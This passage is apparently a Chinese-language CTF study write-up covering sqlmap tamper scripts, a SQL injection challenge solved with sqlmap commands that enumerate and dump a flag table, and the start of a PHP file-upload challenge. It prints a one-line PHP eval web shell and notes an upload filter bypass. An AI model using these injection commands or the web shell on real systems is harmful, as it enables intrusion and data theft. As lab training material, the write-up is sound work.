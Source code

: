 **randomcomments.py**
适用数据库：ALL
作用：用注释符分割sql关键字
使用脚本前：tamper('INSERT')
使用脚本后：I/**/N/**/SERT


## 网站注入实例

### [SchoolBus - SQL injection](https://zjusec.com/challenges/16)

打开网站，发现是一个问答的网站，非常明显的sql注入点
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/20240801183459.png)

因为提示了检测空格，所以使用了tamper的space2comment.py

```shell
## 查看用户
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-user --tamper space2randomblank.py
## 查看数据库
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py
## 查看表
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py -D aaa_web2 --tables
## 查看列
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py -D aaa_web2 -T flag_is_here --columns
## 查看字段
sqlmap -u http://10.214.160.13:10002/?questionid=0 --current-db --tamper space2randomblank.py -D aaa_web2 -T flag_is_here -C "flag" --dump
```
使用上面的语句可以一步步使用sqlmap获取flag

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/cc3a0a22acb55bd08b8eed78d0c2d20.png)

### [SchoolBus - php include 文件注入](http://10.214.160.13:10001/index.php?f=upload.php)

> 拓展链接 
> - [技术剖析中国菜刀原理](https://blog.csdn.net/JackLiu16/article/details/79418652)
> - [PHP文件包含漏洞全面总结 - Zeker62 - 博客园](https://www.cnblogs.com/Zeker62/p/15322771.html)
> - [Kali linux菜刀(weevely3)](https://blog.csdn.net/weixin_41489908/article/details/115875988) 这个最后没用到

打开网站是一个上传文件的页面，上传文件之后会显示文件文件名
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/20240801182113.png)

提示构造一句话木马，所以写了一个php文件
```php
<?php @eval($_GET['123']); ?>
```
但是直接上传会被过滤，所以不能直接上传后缀名为php的文件。尝试上传了一张jpg图片，发现是可以的。
